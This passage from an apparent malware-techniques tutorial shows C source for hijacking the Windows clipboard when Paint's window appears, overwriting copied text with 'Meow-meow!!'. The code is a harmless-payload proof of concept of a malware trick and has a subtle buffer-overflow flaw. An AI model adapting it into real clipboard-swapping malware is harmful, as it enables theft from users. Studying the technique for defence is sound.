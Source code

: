 Perfect! =^..^=

### practical example 2 (monitoring specific process)

The second example (`hack2.c`) shows how to monitor specific processes, like `mspaint.exe`, and perform actions when the application is launched.

What we need for this:     

`FindWindow` - looks for a window titled `Untitled - Paint`, which appears when mspaint.exe is launched.     

`isPaintRunning` - returns `1` if paint is running (based on window name), otherwise returns `0`.      

`hijackClipboard()` - when Paint is detected, the function hijacks the clipboard content and replaces it with `Meow-meow!!`.

So, full source code for this example is looks like this (`hack2.c`):     

```cpp
/*
 * hack2.c
 * simple clipboard hijacking
 * specific process paint.exe
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2025/05/10/malware-tricks-47.html
 */
#include <windows.h>
#include <stdio.h>

char* subStr(char *str, char *substr) {
  while (*str) {
    char *begin = str;
    char *pattern = substr;
    while (*str && *pattern && *str == *pattern) {
      str++;
      pattern++;
    }
    if (!*pattern)
      return begin;

    str = begin + 1;
  }
  return NULL;
}

void hijackClipboard() {
  if (OpenClipboard(NULL)) {
    // check if there is text data in the buf
    if (IsClipboardFormatAvailable(CF_TEXT)) {
      HANDLE hData = GetClipboardData(CF_TEXT);  // get
      if (hData != NULL) {
        // lock access to the buffer data
        char *data = (char *)GlobalLock(hData);
        if (data != NULL) {
          // replace with "Meow-meow!!"
          strcpy(data, "Meow-meow!!");
          EmptyClipboard();
          SetClipboardData(CF_TEXT, hData);
          GlobalUnlock(hData);
        }
      }
    }
    CloseClipboard();
  }
}

```